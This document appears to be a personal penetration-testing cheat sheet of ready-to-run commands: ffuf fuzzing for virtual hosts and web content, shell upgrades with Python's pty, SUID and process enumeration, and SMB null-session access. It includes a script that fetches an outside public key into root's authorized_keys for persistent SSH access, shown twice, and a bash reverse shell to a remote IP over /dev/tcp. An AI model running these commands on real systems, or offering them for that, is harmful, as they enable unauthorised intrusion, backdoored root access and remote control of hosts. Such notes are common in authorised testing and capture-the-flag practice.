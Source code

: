 VHOST scan

```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://domain.com/ -H 'Host: FUZZ.domain.com' -ac
```

Fuzz extensions
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://domain.com/indexFUZ
```

Fuzz content
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://dev.domain.com/FUZZ -ac
```

Fuzz content with cookies
```
ffuf -w Documents/fuzz/content_discovery_all.txt -b "JSESSIONID=weggejorist; BIGipServertest.domain.ondemand.com=weggejorist/wkJjIarIpdsw=; slo_regular_domains_eu1_ij1a2ql5iw_ij1ql5iw=weggejorist; JTENANTSESSIONID_ij1a2ql5iw=sRiYncosfVGnaRZ%2BpN3%2APj2zUuzsvmPcIT8%3D; dpd.sessionTimeout.start=weggejorist" -u https://weggejorist.domain.com/dpd-web/FUZZ
```

Diff two websites
```
diff <(curl -s http://dev.domain.com/static) <(curl -s http://dev.domain.com/Static)
```

PTY
```
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Process tree
```
ps -ef --forest 
```

SUID
```
find / -perm -u=s -type f 2>/dev/null
of
find / -perm -4000 2>/dev/null
```

SSH
```
#!/bin/bash

mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

Simple HTTP python
```
python3 -m http.server 8000
```

SSH
```
mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```
SMBclient null sessions
```
smbclient //10.129.173.93/support-tools -U " "%" "
```
### Shells
```
bash -i >& /dev/tcp/192.168.30.90/8080 0>&1

```
